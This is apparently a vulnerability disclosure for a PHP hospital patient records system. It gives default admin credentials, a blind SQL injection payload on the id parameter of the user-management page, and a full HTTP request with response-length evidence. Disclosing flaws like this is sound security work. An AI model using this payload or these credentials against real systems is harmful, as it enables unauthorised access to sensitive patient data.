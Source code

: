 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/admin/?page=user/manage_user&id=

Vulnerability location: /hprms/admin/?page=user/manage_user&id=, id

Current database name: hprms_db ,length is 8

[+] Payload: /hprms/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /hprms/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 7, Content-Length: 25894
![image](https://user-images.githubusercontent.com/54017627/171406764-5a0fa471-d76e-4dd4-ae33-98ee54b74be8.png)

![image](https://user-images.githubusercontent.com/54017627/171406678-e9a082d5-b276-4b58-82fd-9720cff80dcd.png)

When length (database ()) = 8, Content-Length: 25748
![image](https://user-images.githubusercontent.com/54017627/171406707-27a8556a-3265-4b77-a93d-94477665fd7f.png)

![image](https://user-images.githubusercontent.com/54017627/171406642-b4078601-d591-4d7a-b0f5-bc3cdbeac6f7.png)
